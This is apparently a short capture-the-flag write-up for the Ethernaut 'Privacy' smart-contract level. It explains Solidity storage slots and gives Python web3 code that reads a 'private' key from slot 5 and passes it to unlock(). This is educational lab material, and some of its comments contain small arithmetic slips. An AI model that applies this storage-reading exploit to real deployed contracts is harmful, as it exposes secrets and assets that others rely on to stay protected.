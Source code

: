 # Privacy

---
Objective: 
- Unlock this contract to beat the level.
---

Notes:

Set locked to false
Call `unlock`

Has one condition to be met
Our `_key` need to be `== bytes16(data[2])`

State variables is stored in slots
Each slot holds up to 32 bytes.


```solidity
// slot 0
bool public locked = true;

// uint256 takes up 32 bytes, so it gets it's own slot
// slot 1
uint256 public ID = block.timestamp;

// uint8 takes up 1 byte
// slot 2
uint8 private flattening = 10;

// uint 8 takes up 1 byte
// so it is in the same slot since it is not filled
// slot 2
uint8 private denomination = 255;

// uint16 take up 2 bytes
// we have used up 2 bytes, so this still fits inside
// 2+2 = 8 != 32
// slot 2
uint16 private awkwardness = uint16(block.timestamp);

// fixed sized arrays use THE SLOT THAT IS AVAILABLE NEXT 
// since it is 3 elements, the next one will also use 32 bytes
// it will have 3 slots
// slot 3, slot 4, slot 5
bytes32[3] private data;
```

1. Get what is at the `data[2]` for the key
```python 
contract = w3.eth.contract(address=contract_address, abi=contract_abi)

storage_position = 5

storage_data = w3.eth.get_storage_at(contract_address, storage_position)
```

2. Shorten it to 16 bytes
```python
print(storage_data.hex()[:34])
```

3. Send the key in the unlock function
Send the output to remix